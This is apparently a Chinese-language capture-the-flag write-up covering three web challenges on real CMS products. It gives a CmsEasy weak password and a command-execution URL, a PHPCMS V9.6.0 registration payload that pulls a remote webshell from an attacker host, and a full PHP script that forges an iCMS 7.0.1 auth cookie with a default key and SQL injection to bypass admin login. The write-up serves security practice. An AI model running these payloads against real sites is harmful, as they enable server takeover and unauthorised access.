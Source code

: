 ### web477

#### CmsEasy 命令执行

/admin后台管理

弱密码`admin:admin`

![image-20240607140224725](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240607140224725.png)

编辑一个自定义标签，预览就可以命令执行

```
/index.php?case=templatetag&act=test&id=25
```

### web478

#### PHPCMS V9.6.0 文件上传

访问/install/install.php安装cms

注册界面带生日选项的可以利用

![image-20240607141010663](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240607141010663.png)

payload

```
siteid=1&modelid=11&username=test442&password=test2123&email=test21154@163.com&info[content]=<img src=http://ip/shell.txt?.php#.jpg>&dosubmit=1&protocol=
```

![image-20240607140916790](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240607140916790.png)

### web479

#### iCMS-7.0.1后台登录绕过分析

> 默认key:n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk

```php
<?php
//error_reporting(0);
function urlsafe_b64decode($input){
    $remainder = strlen($input) % 4;
    if ($remainder) {
        $padlen = 4 - $remainder;
        $input .= str_repeat('=', $padlen);
    }
    return base64_decode(strtr($input, '-_!', '+/%'));
}

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length   = 8;
    $key           = md5($key ? $key : iPHP_KEY);
    $keya          = md5(substr($key, 0, 16));
    $keyb          = md5(substr($key, 16, 16));
    $keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey      = $keya.md5($keya.$keyc);
    $key_length    = strlen($cryptkey);

    $string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result        = '';
    $box           = range(0, 255);

    $rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j       = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp     = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a       = ($a + 1) % 256;
        $j       = ($j + $box[$a]) % 256;
        $tmp     = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}

echo "iCMS_iCMS_AUTH=".urlencode(authcode("'or 1=1##=iCMS[192.168.0.1]=#1","ENCODE","n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk"));
```

![image-20240607124845435](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240607124845435.png)



